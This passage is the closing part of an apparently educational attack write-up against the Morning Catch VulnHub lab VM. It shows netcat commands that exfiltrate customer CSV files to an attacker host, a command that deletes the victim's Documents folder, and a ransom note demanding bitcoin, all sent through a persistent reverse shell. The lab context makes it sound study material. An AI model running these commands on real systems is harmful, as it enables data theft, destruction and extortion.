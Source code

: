 While `rbourne` had sufficient privileges to execute the final step of this attack, this persistent reverse shell has system wide access and could be used for potential future attacks. Furthermore, the CEO might not even realize it exists, since he will be distracted by the missing files.

#### 2.3. Stealing the files

Finally, the attacker steals the interesting files with `netcat`.

The attacker opens a new listener on a different port to receive data.

```bash
nc -lvnp 1234 > /home/kali/customers.csv
```

On the terminal of the victim, through the reverse shell:

```bash
cat /home/rbourne/Documents/customers.csv | nc mornincatch.ph 1234
```

The `mornincatch.ph` name on the victim machine resolves the attacker's IP. The attacker does the same with `company_picnic.csv`. 

Then lastly on the victim machine:

```bash
rm -r Documents/*
echo "ATTENTION: we have your sensitive data (SSN, credit card). The originals were deleted. Pay 5.0 BTC to bc1adfka3flasjdlks2mdl0asmd. YOU HAVE 72 HOURS." > Documents/README.txt
```

So the attacker successfully exfiltrated the sensitive data and deleted the original files from the victim's system, leaving a ransom note behind. The attack is completed!

## References

**LLM usage:** both Gemini and ChatGPT were used for technical support.

**Morning Catch VM**

* https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/ 

**For the Phishing attack**

* https://github.com/dc865/writeups/blob/master/MorningCatch/CredHarvesting.md

**For the persistent Reverse Shell**

* https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence
* https://stackoverflow.com/questions/55240626/bash-reverse-shell-command-cron-job-not-working-i-give-up
* https://superuser.com/questions/98089/sending-file-via-netcat
